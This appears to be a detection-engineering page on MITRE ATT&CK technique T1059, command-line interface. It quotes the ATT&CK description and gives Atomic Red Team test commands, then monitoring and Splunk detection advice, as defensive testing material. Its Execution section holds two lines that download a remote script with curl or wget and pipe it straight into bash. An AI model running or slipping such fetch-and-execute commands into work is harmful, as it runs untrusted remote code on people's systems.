 # T1059 - Command-Line Interface
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1059)
<blockquote>Command-line interfaces provide a way of interacting with computer systems and is a common feature across many types of operating system platforms. (Citation: Wikipedia Command-Line Interface) One example command-line interface on Windows systems is [cmd](https://attack.mitre.org/software/S0106), which can be used to perform a number of tasks including execution of other software. Command-line interfaces can be interacted with locally or remotely via a remote desktop application, reverse shell session, etc. Commands that are executed run with the current permission level of the command-line interface process unless the command includes process invocation that changes permissions context for that execution (e.g. [Scheduled Task](https://attack.mitre.org/techniques/T1053)).

Adversaries may use command-line interfaces to interact with systems and execute other software during the course of an operation.</blockquote>

## Assumptions
Attacker or local user has access to command propmpt or powershell

## Execution:
[Test using Atomic Red Team](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1059/T1059.md)

<blockquote>
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Atomics/T1059/echo-art-fish.sh | bash"
</blockquote>

or any commandline or powershel command

## Detection:
* Monitor CommandLine activity (including powershell)
* [Read Mitre ATT&CK for more Detection info](https://attack.mitre.org/wiki/Technique/T1059)

### Visibility
* Windows event log
* Enable Commandline audit
* Command line / Powershell activity

### Filter / Correlation in Splunk
Following catch both comandline and powershell, although they can be separated in two. 

```
"CommandLine:*"
```

![Splunk Detection](https://github.com/avaplex/dpi911/blob/master/images/T1059.JPG)

